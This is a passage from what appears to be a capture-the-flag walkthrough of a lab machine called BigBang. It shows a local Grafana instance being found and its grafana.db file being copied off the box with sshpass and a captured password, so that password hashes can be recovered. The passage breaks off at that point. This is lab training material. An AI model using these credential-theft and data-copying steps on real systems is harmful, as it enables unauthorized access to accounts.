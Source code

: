This is an instance of [Grafana](https://grafana.com/):

```

shawking@bigbang:~$ curl localhost:3000/login
<!DOCTYPE html>
<html lang="en-US">
  <head>

    <meta charset="utf-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />
    <meta name="viewport" content="width=device-width" />
    <meta name="theme-color" content="#000" />

    <title>Grafana</title>

    <base href="/" />
...[snip]...

```

The data for this setup is in `/opt/data`, and shawking has access:

```

shawking@bigbang:/opt/data$ ls
csv  grafana.db  pdf  plugins  png

```

### Shell

#### Recover Password Hash

The `grafana.db` file in `/opt/data` is a SQLite DB:

```

shawking@bigbang:/opt/data$ file grafana.db 
grafana.db: SQLite 3.x database, last written using SQLite version 3044000, file counter 729, database pages 245, cookie 0x1bd, schema 4, UTF-8, version-valid-for 729

```

`sqlite3` client isn’t installed on BigBang, so I’ll grab a copy of the DB with `scp`:

```

oxdf@hacky$ sshpass -p 'quantumphysics' scp shawking@bigbang.htb:/opt/data/grafana.db .

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never enter real credentials into the command line like this.*

There are many tables:
